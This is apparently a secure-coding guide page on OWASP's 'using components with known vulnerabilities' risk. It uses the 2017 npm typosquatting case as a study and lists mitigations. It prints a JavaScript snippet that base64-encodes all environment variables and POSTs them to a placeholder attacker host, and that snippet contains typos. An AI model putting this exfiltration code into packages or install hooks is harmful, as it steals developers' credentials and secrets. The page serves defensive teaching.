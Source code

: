 # Using Components with Known Vulnerabilities

# Description

When it comes to Third Party Management, [The OWASP Top 10 2017 A9:2017 Using Components with Known Vulnerabilities](https://owasp.org/www-project-top-ten/2017/A9_2017-Using_Components_with_Known_Vulnerabilities) covers this topic very well.

During the Software Development Life-cycle, it is very important to add some controls to not only document the libraries that are being used, but also to have an inventory of the versions and components that are used and where are they being used, so they are not out of date, vulnerable or deprecated.

According to the OWASP foundation, some of the risks of using third-party JavaScript code could involve:
* The loss of control over changes to the client application.
* The execution of arbitrary code on client systems.
* The disclosure or leakage of sensitive information to 3rd parties.

# Case study: Exfiltration of sensitive information via TypoSquatting 

Back in August 2017, a malicious NPM (Node Package Management) user/developer published several packages taking advantage of the so-called technique known as Typosquatting, and included malware exfiltrate environment variables and send them to a user-controlled domain (aka secret stealing).

## What is Typosquatting Anyway?
Doing some quick search on the Internet you come across the following definition from Wikipedia:

"Typosquatting, also called URL hijacking, a sting site, or a fake URL, is a form of cybersquatting, and possibly brandjacking which relies on mistakes such as typos made by Internet users when inputting a website address into a web browser. Should a user accidentally enter an incorrect website address, they may be led to any URL (including an alternative website owned by a cybersquatter).
The typosquatter's URL will usually be one of four kinds, all similar to the victim site address (e.g. example.com):
* A common misspelling, or foreign language spelling, of the intended site: exemple.com
* A misspelling based on typos: examlpe.com
* A differently phrased domain name: examples.com
* A different top-level domain: example.org
* An abuse of the Country Code Top-Level Domain (ccTLD): example.cm by using .cm, example.co by using .co, or example.om by using .om. A person leaving out a letter in .com in error could arrive at the fake URL's website.

Once in the typosquatter's site, the user may also be tricked into thinking that they are in fact in the real site, through the use of copied or similar logos, website layouts, or content. Spam emails sometimes make use of typosquatting URLs to trick users into visiting malicious sites that look like a given bank's site, for instance."

Note that the previous definition not only applies to domain names, it can be used to deceive the user with names or strings that look very similar to what the user is looking for.

# Code examples

In this real scenario, the attacker created several npm packages with a similar name (typosquatting) to the original package, but those packages published by the threat actor, contained additional code that exfiltrated secrets and environment variables during the installation hook in npm. The malware code looked like this:

```javascript
const http        = require('http');
const querystring = require('querystring');

const host        = 'malicious-domain-goes-here';
const env         = JSON.stringify(process.env);
const data        = new Buffer(env).toString('base64');

const postData    = querystring.stringify({data});

const options    = {
    hostname: host,
    port    : 80,
    path    : '/log/',
    method  : 'POST',
    headers : {
        'Content-Type': 'application/x-www-form-urlencoded',
        'Content-Length': Buffer.byteLenght(postData)
    }
}
const req = http.request(options)
req.write(portData);
req.end();
```
As you can see in this code, the threat actor added a post-installation script that accessed environment variables and pushed them to a controlled domain. Commonly, developers store sensitive data and secrets (API keys, cloud provider credentials, ssh keys) in environment variables; by installing this package without doing a proper code review, could introduce multiple problems.

# Mitigation

Here are some good recommendations for doing a proper patching process:

* Remove unused dependencies, unnecessary features, components, files, and documentation.
* Continuously inventory the versions of both client-side and server-side components (e.g. frameworks, libraries) and their dependencies using tools like versions, DependencyCheck, retire.js, etc. Continuously monitor sources like CVE and NVD for vulnerabilities in the components. Use software composition analysis tools to automate the process. Subscribe to email alerts for security vulnerabilities related to components you use.
* Only obtain components from official sources over secure links. Prefer signed packages to reduce the chance of including a modified, malicious component.
* Monitor for libraries and components that are unmaintained or do not create security patches for older versions. If patching is not possible, consider deploying a virtual patch to monitor, detect, or protect against the discovered issue.
Every organization must ensure that there is an ongoing plan for monitoring, triaging, and applying updates or configuration changes for the lifetime of the application or portfolio.

## Risk Assessment

Vulnerabilities on some known libraries could have a low impact low whereas others could cause a large breach. Depending on the assets being protected, the impact could be low or severe.

# References

[A9:2017-Using Components with Known Vulnerabilities](https://owasp.org/www-project-top-ten/2017/A9_2017-Using_Components_with_Known_Vulnerabilities)

[Third Party JavaScript Management Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/Third_Party_Javascript_Management_Cheat_Sheet.html)

[corssenv malware on the npm registry](https://blog.npmjs.org/post/163723642530/crossenv-malware-on-the-npm-registry)

[Command and Scripting Interpreter: JavaScript/JScript](https://attack.mitre.org/techniques/T1059/007/)

